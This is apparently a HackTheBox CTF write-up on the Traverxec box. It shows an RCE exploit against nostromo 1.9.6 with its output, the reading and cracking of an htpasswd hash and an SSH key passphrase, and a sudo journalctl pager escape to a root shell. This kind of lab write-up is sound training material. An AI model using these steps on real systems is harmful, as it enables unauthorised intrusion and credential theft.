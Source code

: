 ```yaml
---
Title: HackTheBox Traverxec
Date: 2020-01-04
Category: Challenges
Status: published
---
```


Traverxec is an interesting box, mainly because the HackTheBox team rated it as easy while the community disagreed and voted it to medium difficulty. It involved a funky privilege escalation that I had not seen before. Let's see how it's done! Our first nmap scan does not return exciting results:

```sh
$ nmap -sS -sC -oN traverxec.nmap -v 10.10.10.165
# Nmap 7.80 scan initiated Mon Dec  9 13:49:03 2019 as: nmap -sS -sC -oN traverxec.nmap -v 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: TRAVERXEC

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Dec  9 13:49:30 2019 -- 1 IP address (1 host up) scanned in 26.97 seconds
```

On port 80, we see a portfolio website. Nothing exciting seems to be hidden here. We have some static images, a Javascript gallery, a bootstrap template, and a bit of glue in between. The contact form initially seemed interesting, but on closer inspection, we simply perform a GET request to an empty file:

```html
<form class="contact-form php-mail-form" role="form" action="empty.html" method="GET">
```

There are also no `robots.txt` or `.htaccess` files. However, performing some requests to the server and inspecting the response headers, we can see that the server version leaks: `nostromo 1.9.6`. Looking for exploits, we find a remote code execution vulnerability: https://www.exploit-db.com/exploits/47837. Using the attached proof-of-concept code (like the script kiddies we are), we can explore our privileges:

```sh
# ./rce.py 10.10.10.165 80 whoami

HTTP/1.1 200 OK
Date: Sat, 04 Jan 2020 12:06:43 GMT
Server: nostromo 1.9.6
Connection: close

www-data
```

Reading up on Nostromo as a server, we discover the configuration directory and can extract an htpasswd file:

```
# ./rce.py 10.10.10.165 80 'ls /var/nostromo/conf/'

- .htpasswd file found /var/nostromo/conf/.htpasswd david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Naturally, we crack it with JohnTheRipper and obtain the password for the user `david`:

```sh
# john --wordlist=/usr/share/wordlists/rockyou.txt htpasswd-david.hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (?)
1g 0:00:01:34 DONE (2020-01-04 13:12) 0.01063g/s 112524p/s 112524c/s 112524C/s Noyoudo..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Another interesting finding when browsing the file system is a cron job apparently backing up sensitive credential files:

```sh
# cat /etc/cron.daily/passwd
#!/bin/sh

cd /var/backups || exit 0

for FILE in passwd group shadow gshadow; do
        test -f /etc/$FILE              || continue
        cmp -s $FILE.bak /etc/$FILE     && continue
        cp -p /etc/$FILE $FILE.bak && chmod 600 $FILE.bak
done
```

The files are visible in the backup location, but we don't have read permissions on the juicy files:

```sh
$ ls -al /var/backups
total 484
drwxr-xr-x  2 root root     4096 Jan  4 06:25 .
drwxr-xr-x 12 root root     4096 Oct 25 14:43 ..
-rw-r--r--  1 root root    40960 Nov 12 06:25 alternatives.tar.0
-rw-r--r--  1 root root     7665 Oct 25 15:30 apt.extended_states.0
-rw-r--r--  1 root root      186 Oct 25 14:34 dpkg.diversions.0
-rw-r--r--  1 root root      126 Oct 25 14:34 dpkg.diversions.1.gz
-rw-r--r--  1 root root      100 Oct 25 14:20 dpkg.statoverride.0
-rw-r--r--  1 root root      120 Oct 25 14:20 dpkg.statoverride.1.gz
-rw-r--r--  1 root root   314222 Oct 25 15:30 dpkg.status.0
-rw-r--r--  1 root root    87664 Oct 25 15:30 dpkg.status.1.gz
-rw-------  1 root root      708 Oct 25 14:34 group.bak
-rw-------  1 root shadow    597 Oct 25 14:34 gshadow.bak
-rw-------  1 root root     1395 Oct 25 14:34 passwd.bak
-rw-------  1 root shadow    940 Oct 27 04:56 shadow.bak
```

Tracing back to Nostromo from this slight tangent, we can see that the server has a [home directory feature](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), meaning that we may be able to leak `david`'s home contents:

```sh
# cat conf/nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

And indeed, with the already cracked password, we can access David's protected area at `http://10.10.10.165/~david/protected-file-area/`. In there, we find his backed up password-protected SSH keys, however. So we crack them with John again:

```sh
# /usr/share/john/ssh2john.py id_rsa > id_rsa.john
# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:07 90.25% (ETA: 14:57:31) 0.1420g/s 1849Kp/s 1849Kc/s 1849KC/s 1defaolur*..1deep4ife
Session aborted
```

With SSH access as `david`, we can secure the user flag in their home directory. Additionally, we also find a server
monitoring script in his home:

```
# cat bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Note the last line, which performs a `sudo` call on `journalctl` to fetch the Nostromo logs. We can leverage a whitelisted `journalctl` for privilege escalation by leveraging sudo access to a pager application such as less. The command `sudo journalctl -n5 -unostromo.service` works, but it's bound to five lines of output. So we simply resize our terminal to a single line. This will guarantee us getting dropped into `less`. From there, we merely execute `!/bin/bash` in its command prompt, and we are dropped into a root shell, allowing us to gain access to the root flag.
